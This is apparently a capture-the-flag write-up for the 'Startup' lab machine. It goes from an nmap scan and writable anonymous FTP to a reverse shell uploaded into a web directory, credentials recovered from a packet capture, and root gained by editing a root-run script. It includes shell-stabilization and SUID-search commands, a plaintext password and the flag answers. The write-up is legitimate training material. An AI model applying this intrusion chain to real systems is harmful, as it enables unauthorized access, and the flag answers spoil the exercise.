# Startup

* IP = 10.10.16.78

## Questions/Tasks:

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* Hmmm 🤔 FTP is running and allows *Anonymous* login
* Let's try that first..
* Directory listing:

* Get notice.txt, important.jpg and .test.log from the ftp server
* .test.log seems to be useless
* Contents of notice.txt:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
* Note the name **Maya**
* important.jpg looks like this:<br>

* Only thing we get in the webpage:

* Lets check gobuster for any other directories:

### GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
* Inside /files we have:(looks like the same directory as FTP)

* So, we can upload a reverse shell over FTP and return back at the webpage at /files!!




* Stabilize the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Finding the files:
```bash
find / -name *.txt 2>/dev/null
```

* Aww!! 🥰 ❤️

1. What is the secret spicy soup recipe?<br>

**Ans-love**

* Some folders that doesn't belong to root, that are present:
```bash
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
```
* *Vagrant* folder seems empty
* But the incidents folder has contents:
```bash
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 04:13 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```
* Lets get that file to local machine and analyze with **Wireshark**
* Remote machine:
```
python3 -m http.server
```
* Local machine:
```
wget http://10.10.16.78:8000/suspicious.pcapng -O suspicious.pcapng
```
* Follow the TCP stream to get the password:


* So it turns out **c4ntg3t3n0ughsp1c3** is password for *lennie*
* Navigate to lennie's home directory and get the user flag.
* Hence *Maya* wasn't a valid name and notice.txt & important.jpg were also some distraction stuff!!😮‍💨😮‍💨

2. Contents of user.txt<br>

**Ans-THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**

* There doesn't seem much inside ~/Documents:
```bash
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -la
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
lennie@startup:~/Documents$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
lennie@startup:~/Documents$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$
```
* **sudo -l** doesn't work cause we dont know the root password
* **find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null**
* Also doesn't find anything interesting setuid binary to exploit
* Strange files in scripts directory:<br>

* Lets modify the */etc/print.sh* script:
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$
```
* Modify like this:<br>


* Let it run
* Navigate to /root and get the flag...

3. Contents of root.txt<br>

**Ans-THM{f963aaa6a430f210222158ae15c3d76d}**
